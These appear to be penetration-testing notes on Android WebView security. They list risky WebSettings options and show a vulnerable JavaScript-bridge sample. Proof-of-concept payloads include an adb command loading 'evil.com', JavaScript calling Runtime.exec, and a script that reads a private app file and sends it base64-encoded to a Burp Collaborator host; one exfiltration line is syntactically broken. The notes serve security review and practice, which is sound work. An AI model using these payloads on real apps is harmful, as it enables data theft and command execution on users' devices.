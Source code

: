 - WebView load content from URI using `loadURI`, `loadDate` ,`loadDataWithBaseURL` so make sure to check if any parameter passed to these method are user-controlled throw text_input or intent's Extra data 
	- WebView hijacking accrue when attacker apple to change the content of default loaded site with it's own: `adb shell am start <pakage>/.<activity> -e url "http://evil.com"`
- review if data transmitted in clear text HTTP  

`WebSettings` object used to enable/disable WebView functionalities, here’s some security settings
- if `setJavaScriptEnabled` set to *true*, WebViews can run JS so we can check JS vulns such XSS  
- JavaScript bridge functionality is a way to inject java object into WebView by making them accessible to JavaScript. after android 4.2 methods must be annotated with `@javascriptinterface` in order to be accessible to the JS running in the WebView  
	```java
	//vuln code
	webView.addJavascriptInterface(new WebAppInterface(this), "Android");
	...........
	public static String getUserToken() {
		return UUID.randomUUID().toString(); //Generate user token
	}
	```
	```java
	// WebAppInterface
	.....
	@JavascriptInterface
    public String getUserToken() {
        return SupportWebView.getUserToken();
    }
	```
	attacker can host following poc to execute java code using js to leak data
	```js
	<script type="text/javascript">
		document.write("token: " + Android.getUserToken());
	</script>
	```
	or to execute system commands
	```js
	<script>
	var path = "/data/data/com.tmh.vulnwebview/";
	function execute(cmd) 
	{
		document.write("webview Vulnerability");
		return Android.getClass().forName('java.lang.Runtime').getMethod('getRuntime' , null).invoke( null, null).exec(cmd);
	} 
	execute(['/system/bin/touch', path]); 
	</script>
	```
- if `setAllowContentAccess`  set to *true* , WebView can access content providers view `content://` url
- `setAllowFileAccess` ,`getAllowFileAccessFromFileURLs` if *true* passed to any methods, file system can accessed by `fle://`, 
- `getAllowUniversalAccessFromFileURLs` set to *true*, will allows cross-origin requests from `file://` scheme to access content from any origin
	poc to leak private files
	```js
	<script>  
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local file
    function load(url) {  
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {  
            if (xhr.readyState === 4) {  
	            fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=') + btoa(xhr.responseText)); //send b64 encoded file to attacker  
            }  
        }
        xhr.open('GET', url, true);  
        xhr.send('');  
    }
    load(url);  
	</script>
	```

- `setPluginState`
- `setSavePassword(false)`
- [Universal XSS](https://alesandroortiz.com/articles/uxss-android-webview-cve-2020-6506/)
- https://www.securityweek.com/hackers-can-abuse-ios-webview-make-phone-calls/
- more keywords to grep
```java
loadURL()
evaluateJavascript()
addJavascriptInterface()
onJsPrompt()
shouldOverrideUrlLoading()
shouldInterceptRequest()
```

use [vulnerable webview application](https://github.com/t4kemyh4nd/vulnwebview), [Farah Hawa’s Video in youtube](https://www.youtube.com/watch?v=qS5PkC-37io).to practice on above